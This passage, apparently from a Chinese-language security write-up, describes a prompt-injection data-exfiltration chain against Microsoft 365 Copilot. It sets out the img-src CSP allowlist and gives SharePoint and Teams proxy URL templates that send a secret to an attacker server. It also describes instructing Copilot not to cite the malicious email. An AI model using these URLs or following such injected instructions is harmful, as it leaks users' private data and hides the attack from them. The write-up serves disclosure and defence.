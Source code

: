 这是不是就能够自动泄露敏感信息了？  
  
其实不然，微软在 M365 Copilot 网页上还设置了 img-src CSP：  
```
*.cdn.office.net*.df.onecdn.static.microsoft*.public.onecdn.static.microsoft*.bing.combing.comres-dev.cdn.officeppe.net*.sharepoint-df.com*.sharepoint.commedia.licdn.comspoprod-a.akamaihd.netprod.msocdn.comcontent.powerapps.com*.teams.microsoft.com*.s-microsoft.com*.sharepointonline.comconnectoricons-df.azureedge.netconnectoricons-prod.azureedge.netcpgeneralstore.blob.core.chinacloudapi.cndepservstorageussec.blob.core.microsoft.sclouddepservstorageusnat.blob.core.eaglex.ic.govtip1apiicons.cdn.powerappscdn.nettip2apiicons.cdn.powerappscdn.netprodapiicons.cdn.powerappscdn.netaz787822.vo.msecnd.netcms-aiplugin.azureedge.netpowerautomate.microsoft.com*.osi.office.net*.osi.officeppe.netdesigner.microsoft.combing.com*.sharepointonline.com*.sharepoint-df.comconnectoricons-df.azureedge.netconnectoricons-prod.azureedge.netcpgeneralstore.blob.core.chinacloudapi.cndepservstorageussec.blob.core.microsoft.sclouddepservstorageusnat.blob.core.eaglex.ic.govtip1apiicons.cdn.powerappscdn.nettip2apiicons.cdn.powerappscdn.netprodapiicons.cdn.powerappscdn.netaz787822.vo.msecnd.netcms-aiplugin.azureedge.netpowerautomate.microsoft.com
```  
  
因此，从本质上讲，虽然现在可以让 LLM 响应图片，但是浏览器不会尝试去获取它，因为 Evil.com 不符合   
img-src  
 CSP的要求。  
### 利用SharePoint 实现 CSP 绕过  
  
长话短说，SharePoint Online（SPO）不再允许开发者将服务器端代码包含到网站或页面中，又或是将查询字符串参数传递给底层的 PowerAutomate 应用程序。  
  
经过一些乏味的挖掘，研究人员发现了下面这个URL：  
```
<attacker_tenant>.sharepoint.com/sites/<attacker_spo_site>/_api/SP.Publishing.EmbedService/EmbedData?url=%27<attacker_server>/<secret>%27&version=1
```  
  
该服务器代表客户端发出请求（因此不需要客户端代码）以获取SPO网站的嵌入数据。  
  
唯一的限制是这要求用户主动连接到他们的SPO账户并接受攻击者的邀请查看他们的网站。  
  
**但令人兴奋的是，这是一个完整的泄露链！即提示注入 -> 图片编辑绕过 -> CSP绕过。**  
### 利用 Microsoft Teams 绕过CSP  
  
再次经过一番不懈的挖掘，研究者在 Microsoft Teams 中发现了一处 URL：  
```
https://eu-prod.asyncgw.teams.microsoft.com/urlp/v1/url/content?url=%3Cattacker_server%3E/%3Csecret%3E&v=1
```  
  
执行对该URL的GET请求会产生与SPO URL相同的结果，但无需用户接受任何邀请，或执行任何特殊动作就能使攻击生效！  
  
最终，研究人员不仅从上下文中提取了敏感数据，还可以让 M365 Copilot 不引用恶意电子邮件，要做到这一点，只需指示 "电子邮件收件人 "出于合规原因永远不要引用这封邮件即可。  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jkYuOfTErPx6icEb9fzEpEibFSfyEzYhMuvFQdQUTKibJ4wmQjWKl3CY8c7WNxxUVF6lbVm5PK0Yxoow/640?wx_fmt=png&from=appmsg "")  
  
# 视频演示  
  
  
参考资料：  
  